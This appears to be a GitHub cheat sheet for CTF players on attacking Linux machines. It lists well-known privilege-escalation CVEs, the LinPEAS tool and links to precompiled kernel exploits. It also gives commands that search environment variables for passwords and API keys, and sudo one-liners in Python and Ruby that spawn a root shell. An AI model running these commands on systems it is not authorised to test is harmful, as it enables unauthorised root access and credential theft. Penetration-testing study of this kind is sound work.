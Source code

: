 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | [Shellshock - CVE-2014-6271](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [DirtyCow - CVE-2016-5195](https://dirtycow.ninja/) | Privilege escalation vulnerability in the Linux Kernel. (Linux Kernel <= 3.19.0-73.8) |
| 3 | [SambaCry - CVE-2017–7494](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |


### Post Exploitation - Privilage Escalation
*Automated Tools:*
| Tool | Description |
| --- | --- |
| [LinPEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) | A script that search for possible paths to escalate privileges on Linux/Unix |


## Manual Privilage Escalation
*Grabbing OS Information*
```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

*Checking $PATH for Write Permissions*
If you have **write permissions on any folder inside the ``PATH`` variable** you may be able to hijacking some libraries or binaries:
```
echo $PATH
```

*Checking Environment Variables*
Looking for interesting information, passwords or API keys in the environment variables.
```
(env || set) 2>/dev/null
```

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

## Kernel Exploits
Check the Kernel version for a possible CVE.
```
cat /proc/version
uname -a
```

*Searching for an exploit via SearchSploit*
```
searchsploit "Linux Kernel"
```

*Resources with Compiled Kernel Exploits*
| # | Resource | Description |
| --- | --- | --- |
| 1 | [Lucyoa's Github](https://github.com/lucyoa/kernel-exploits) | Linux Kernel Exploits, Precompiled. |
| 2 | [bwbwbwbw's GitHub](https://github.com/bwbwbwbw/linux-exploit-binaries) | List of very common Linux Kernel Exploits, Precompiled. |
| 3 | [Kabot's Privilege Escalation Packs](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) | Another lsit of Linux Kernel Exploits, Precompiled. |


# Resources Referenced
*Special Thanks to:*
| # | Name | Resource |
| --- | --- | --- |
| 1 | Carlos Polop | https://book.hacktricks.xyz/linux-unix/privilege-escalation |
